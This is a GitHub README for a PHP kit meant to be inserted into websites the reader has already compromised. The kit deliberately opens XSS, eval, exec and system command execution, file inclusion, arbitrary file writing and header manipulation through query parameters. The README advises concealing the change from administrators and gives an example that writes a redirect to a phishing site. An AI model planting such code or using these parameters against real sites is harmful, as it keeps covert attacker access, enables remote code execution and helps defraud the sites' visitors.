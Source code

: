 <div align="center">

# PHP Vulnerable Codes [![Version](https://img.shields.io/badge/v-1-blue?style=flat-square)](https://github.com/ZechBron/PHP_VulnCdoe)

[![Coded By](https://img.shields.io/badge/Coded%20By-Zech%20Bron-red?style=for-the-badge&logo=github)](https://github.com/ZechBron)


</div>

### Description:

This is a Vulnerable PHP Codes to put inside a file (but do not modify that file to avoid the admin discovering what you've done) for future attack.
Note that the only purpose of this code is to insert this shit in a file to make the site vulnerable for your future attack.

Note that this is not a shell or backdoor. This is just a vulnerable php codes that you can insert to the site you have hacked to make the sites vulnerable for future attack.

__Disadvatage__

Other hackers might find and exploit this but if you want though you can put this vulnerable code in a seperate file and just put a password so only you can access this.


### Queries and Parameters

+ XSS

   .php?zch-css=//your xss parameter here

+ Eval

   .php?zeval=//command here

+ Exec

   .php?zexec=//command here

+ System

   .php?zsys=//command here

   `Note: You don't have to type system() here. Just type the commands and that's all. For Example: .php?zsys=uname%20-a

+ File Inclusions

   .php?zfile=//remote or local file here

+ Create and Write a File

   .php?zfilename=filename-of-your-choice&&zcontent=file-content

   ```
   Example:
   I want to write a php file in a site but that site has no shell yet.
   The filename I want is redir.php and the content I want is this: <?php header("LOcation: " . "https://my-phishing-sites.com");

   So I will put these in the address bar:

   .php?zfilename=redir.php&&zcontent=<?php header("Location: " . "https://my-phishing-site.com");


   Everything depends on you.

+ Header Hacking and Manipulating

   .php?zheader=//Your Header Content Here
